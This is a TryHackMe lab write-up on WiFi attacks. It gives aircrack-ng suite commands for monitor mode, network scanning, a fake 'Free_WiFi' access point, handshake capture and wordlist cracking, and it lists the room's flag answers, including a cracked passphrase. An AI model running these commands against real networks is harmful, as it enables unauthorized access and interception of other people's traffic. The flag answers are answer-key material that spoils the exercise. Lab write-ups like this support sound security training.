


# **TryHackMe Writeup: Day 11 - WiFi Attacks (Advent of Cyber 2024)**

## **Overview**
- **Room Name**: Day 11: WiFi Attacks
- **Difficulty**: Medium
- **Category**: Wireless Security
- **Objective**: Understand various types of WiFi attacks and learn how to execute and defend against them.
- **Tools**: Aircrack-ng, Kismet, Reaver, Wireshark

---

## **Table of Contents**
1. [Introduction](#introduction)
2. [Types of WiFi Attacks](#types-of-wifi-attacks)
3. [Executing a WiFi Attack](#executing-a-wifi-attack)
4. [Defending Against WiFi Attacks](#defending-against-wifi-attacks)
5. [Conclusion](#conclusion)

---

## **Introduction**

WiFi networks are susceptible to a variety of attacks due to their wireless nature. This challenge explores common WiFi attacks, including packet sniffing, rogue access points, and WPA/WPA2 cracking. By understanding these threats, participants can better protect wireless networks from unauthorized access and data breaches.

---

## **Types of WiFi Attacks**

### 1. Packet Sniffing
Packet sniffing involves capturing network traffic to extract sensitive information like passwords or financial data. Tools like Wireshark are commonly used for this purpose.

### 2. Rogue Access Points
Attackers set up unauthorized access points to mimic legitimate ones, tricking users into connecting to them. This allows attackers to intercept data or launch further attacks.

### 3. Evil Twin Attacks
An evil twin attack involves creating a malicious network that appears identical to a legitimate one. Users unknowingly connect to the evil twin, allowing attackers to capture sensitive information.

### 4. WPA/WPA2 Cracking
Attackers exploit vulnerabilities in WPA/WPA2 protocols to gain unauthorized access to encrypted wireless networks using tools like Aircrack-ng and Reaver.

### 5. Deauthentication Attacks
Deauthentication attacks forcefully disconnect devices from a network by sending deauthentication frames, disrupting communication and potentially leading users to connect to rogue networks.

---

## **Executing a WiFi Attack**

### Step 1: Setting Up the Environment

1. **Enable Monitor Mode** on your wireless interface:
   ```bash
   airmon-ng start wlan2
   ```

2. **Scan for Networks** using Kismet or Airodump-ng:
   ```bash
   airodump-ng wlan2
   ```

#### Screenshot:
  
*This screenshot shows the scanning of available networks.*

### Step 2: Performing an Evil Twin Attack

1. **Create a Fake Access Point** using Airbase-ng:
   ```bash
   airbase-ng -e "Free_WiFi" -c 6 wlan2
   ```

2. **Capture Handshakes** for WPA/WPA2 cracking:
   ```bash
   airodump-ng --bssid <AP_MAC> -c <CHANNEL> -w capture wlan2
   ```

### Step 3: Cracking WPA/WPA2 Passwords

1. **Use Aircrack-ng** to crack the captured handshake:
   ```bash
   aircrack-ng -w /path/to/wordlist.txt capture-01.cap
   ```

#### Screenshot:
  
*This screenshot shows the process of cracking a WPA/WPA2 password.*

---

#### **Answer the Questions:**
1. **What is the BSSID of our wireless interface?**
   - Flag: `02:00:00:00:02:00`

2. **What is the SSID and BSSID of the access point? Format: SSID, BSSID**
   - Flag: `MalwareM_AP, 02:00:00:00:00:00`

3. **What is the BSSID of the wireless interface that is already connected to the access point?**
   - Flag: `02:00:00:00:01:00`

4. **What is the PSK after performing the WPA cracking attack?**
   - Flag: `fluffy/champ24`

---

## **Defending Against WiFi Attacks**

### Best Practices:

1. **Strong Encryption**: Use WPA3 or at least WPA2 with strong passwords.
2. **Disable WPS**: WPS is vulnerable and should be disabled if not needed.
3. **Network Monitoring**: Regularly monitor network traffic for suspicious activity.
4. **MAC Filtering**: Implement MAC address filtering to restrict device connections.
5. **User Education**: Educate users about the risks of connecting to unknown networks.

---

## **Conclusion**

Understanding WiFi attacks is crucial for securing wireless networks against unauthorized access and data breaches.

### Key Takeaways:
1. Wireless networks are vulnerable to various attacks due to their open nature.
2. Tools like Aircrack-ng and Kismet are powerful for both attacking and defending networks.
3. Implementing strong security measures can significantly reduce the risk of successful attacks.

By applying these practices, network administrators can better protect their environments from wireless threats.

---